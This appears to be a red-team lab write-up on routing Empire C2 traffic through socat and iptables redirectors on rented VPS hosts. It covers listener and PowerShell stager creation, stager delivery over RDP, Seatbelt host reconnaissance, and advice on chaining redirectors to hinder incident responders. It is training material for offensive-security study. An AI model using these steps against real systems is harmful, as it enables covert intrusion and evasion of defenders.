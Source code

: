 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.

![[Pasted image 20240310173626.png]]
### 5. Create Stager

Select multi/launcher in the drop down menu. Then provide the following values:

    StarkillerName: interactive-https-pwsh
    Listener: interactive-https
    Language: powershell

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen

![[Pasted image 20240310173648.png]]

### 6. Deliver Stager
- Execute the Stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

![[Pasted image 20240310174517.png]]
###### Note: In a real engagement you would avoid RDP and if you absolutely must, you should use a proxy for the connection.
- We are going to RDP to the target network, consider this a system you control and disregard communication path, OPSEC, and tradecraft on this system only. 

Open a command prompt by clicking the windows icon in the lower left and typing cmd.exe. Then right click in the command prompt. 
- You should see a lot of encoded text. Press Enter to spawn a new agent. The command prompt should close automatically. You may now exit your RDP session.
![[Pasted image 20240310174620.png]]
![[Pasted image 20240310174630.png]]
### 7. Agent Interaction

Click on the chain icon on the left navigation window to bring up the Agents dashboard. 
- You may now create tasks to explore the new system.

If you look at the VIEW tab of the agent you will see that the External IP is the IP of your redirector while the internal IP is the IP of the host.

Let's run Seatbelt from GhostPack which will allow us to get a lot of information about the user and host on this system. 
- Provide the following values on the INTERACT tab of the agent and click submit:

	    Execute Module: csharp/GhostPack/Seatbelt
	    DotNetVersion: Net35
	    Command: -group=user

![[Pasted image 20240310181957.png]]
#### Notes

Now all the C2 traffic is routed through a redirector in gray space. This creates one hop between your C2 server and the target network.
- If Incident Responders conduct network forensics, they would get the DNS or IP address of the temporary VPS instead of your C2 server.
- The Blue Team can ask the VPS provider for logs around the time of the incident through Law Enforcement channels or by filling out an Abuse report.
- With one hop that might be a concern, but redirectors can be chained together to make it more difficult to unravel the whole chain.
- If chaining redirectors, use different providers in different geographic areas.
## Conclusion

In this lab we created an HTTP listener that was configured with X.509 certificates to safeguard our C2 traffic. 
- We then generated a PowerShell stager and delivered it to the windows system in the target environment. 
- For the purposes of the lab, we used direct RDP access to execute our stager code. 
- In a real engagement other delivery methods like phishing would be necessary to get that initial access. 
- Lastly, we were assured that all the communication worked because the Agent was spawned and we could see that the traffic was directed to our C2 through the redirector.

---
##### BONUS - iptables
1. Try to establish redirection with iptables on the redirector (not your Slingshot Linux VM). First enable ipv4 forwarding with `sysctl net.ipv4.ip_forward=1` and then establish a prerouting rule.
2. Create iptables rules
```markdown
root@4-8-15:~# sysctl net.ipv4.ip_forward=1
root@4-8-15:~# iptables -I INPUT -p tcp -m tcp --dport 443 -j ACCEPT
root@4-8-15:~# iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination <C2-IP-Address or Hostname>:443
root@4-8-15:~# iptables -t nat -A POSTROUTING -j MASQUERADE
root@4-8-15:~# iptables -I FORWARD -j ACCEPT
root@4-8-15:~# iptables -P FORWARD ACCEPT
root@4-8-15:~# nano /etc/ssh/sshd_config
root@4-8-15:~# service sshd restart or systemctl restart sshd
```
##### BONUS - SSH | Redirector Configuration
1. By default the SSH daemon will not allow remote port forwards to bind to all adapters (0.0.0.0) unless the configuration is set properly. 
2. Open the SSH daemon config with `vim /etc/ssh/sshd_config`  on the redirector. 
3. Change the value of `GatewayPorts and AllowTcpForwarding to yes.`

